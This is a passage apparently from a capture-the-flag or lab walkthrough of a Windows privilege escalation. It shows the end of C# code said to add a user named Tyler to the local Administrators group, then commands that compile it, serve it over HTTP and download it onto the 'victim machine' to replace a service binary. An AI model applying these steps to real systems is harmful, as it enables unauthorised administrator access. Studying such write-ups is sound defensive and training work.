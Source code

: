 ```c#
        // Start process
        Process process = Process.Start(psi);
        
        // Read fd
        string output = process.StandardOutput.ReadToEnd();
        string error = process.StandardError.ReadToEnd();

        // wait for process to end
        process.WaitForExit();
    }
}
```
With this code we can add the user Tyler to the administrators local group.let's compile it and upload to the machine:
```bash
mcs service.cs
python3 -m http.server 80
```
Now we can download the file from the victim machine, while we do that we can also remove the existing service binary:
```powershell
iwr http://10.8.79.118/service.exe -o spoofer-scheduler.exe
```
	